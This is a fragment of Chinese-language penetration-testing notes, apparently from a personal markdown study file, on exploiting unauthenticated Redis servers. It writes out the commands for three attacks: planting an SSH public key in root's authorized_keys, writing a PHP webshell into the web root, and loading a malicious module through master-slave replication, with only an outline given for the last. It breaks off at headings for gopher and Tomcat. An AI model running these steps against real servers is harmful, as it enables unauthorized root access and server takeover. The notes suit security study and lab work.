 ```redis
#写入公钥的姿势   如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。
config ser dir /root/.ssh/    

config set dbfilename authorized_keys

set a  "\\n\\n\\n公钥\\n\\n\\n"(前后加换行)

save

```

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell。

```redis
Copy192.168.63.130:6379> config set dir /var/www/html/
OK
192.168.63.130:6379> config set dbfilename shell.php
OK
192.168.63.130:6379> set x "<?php phpinfo();?>"
OK
192.168.63.130:6379> save
OK
```

#### 主从复制

```sh
#主机
slaveof 192.168.21.246 6379 设置从机

get key

#从机
redis-cli -h 192.168.21.246 -p 6379

get key 


主机写so文件

僚机-->fullresync 同步

​		-->module load 加载so文件

​		-->system.exe


```

gopher

### Tomcat漏洞

